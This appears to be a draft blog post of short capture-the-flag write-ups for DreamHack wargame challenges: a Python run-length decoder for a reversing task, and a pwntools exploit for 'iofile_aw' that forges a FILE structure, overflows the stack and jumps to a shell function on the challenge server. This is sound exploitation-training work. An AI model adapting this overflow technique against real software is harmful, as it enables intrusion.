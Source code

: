 ```yaml
---
title: "Dream Hack Playround"
date: 2025-05-21
draft: true
tags: ["DreamHack", "Reverse-Engineering", "Pwnable"]
# categories: ["CTF Writeups"]
lightgallery: true
toc:
  enable: true
description: "Solutions for some challenges in BKCTF 2023 by ducdatdau"
---
```


Short solutions to several CTF challenges on the [Dream Hack wargame](https://dreamhack.io/wargame), focusing on topics such as pwn, rev, and forensics. 

<!--more-->

I don’t have much time for CTFs right now since I’m focusing on my study abroad applications. This series only covers easier challenges - I miss CTFs too much to quit completely.

<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin-left: auto; 
    margin-right: auto;
}
</style>

# Dream Hack Wargame

## secret message | rev⭐⭐

- [Run Length Encoding Algorithm](https://www.geeksforgeeks.org/run-length-encoding/). Example: `raw = ABBBCCDDDDE` ➡️ `enc = ABB1CC0DD2E`. 

```python
from PIL import Image

with open("secretMessage.enc", "rb") as enc_file: 
    data = enc_file.read() 
    raw_file = open("secretMessage.raw", "wb") 

    idx = 0 
    
    while idx < len(data):
        if idx + 1 < len(data) and data[idx] == data[idx + 1]: 
            for j in range(data[idx + 2] + 2): 
                raw_file.write(data[idx].to_bytes(1, "little")) 
            idx += 3
        else: 
            raw_file.write(data[idx].to_bytes(1, "little")) 
            idx += 1

    raw_file.close() 

    with open("secretMessage.raw", "rb") as f:
        output = f.read()
        img = Image.frombytes("1", (500, 50), output)
        img.save("flag.png")

# raw = ABBBCCDDDDE -> enc = ABB1CC0DD2E.
```

## iofile_aw | pwn⭐⭐⭐

- Modify `FILE` structure to change `size` from 255 bytes to 0x1000 bytes. 
- Trigger a BOF bug. Since the stack canary is disabled, we can overwrite the return address with the address of `get_shell`.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iofile_aw_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
# p = process(exe.path) 
p = remote("host3.dreamhack.games", 21978)

# gdb.attach(p, gdbscript="""
#     b *0x400ba0
#     c 
# """)

# pause()

sz_addr = exe.symbols["size"]
shell_addr = exe.symbols["get_shell"]

payload = b"printf "
payload += p64(0xfbad208b)
payload += p64(0)               # _IO_read_ptr
payload += p64(0)               # _IO_read_end
payload += p64(0)               # _IO_read_base
payload += p64(0)               # _IO_write_base
payload += p64(0)               # _IO_write_ptr
payload += p64(0)               # _IO_write_end
payload += p64(sz_addr)         # _IO_buf_base

p.sendafter(b"# ", payload) 

p.sendafter(b"# ", b"read\x00") 
# input("Enter to continue")
p.sendline(p64(0x1000))         # size = 0x1000 

payload = b"exit\x00"
payload += b"A" * (0x228 - 5) 
payload += p64(shell_addr) 

p.sendafter(b"# ", payload) 

p.interactive()
```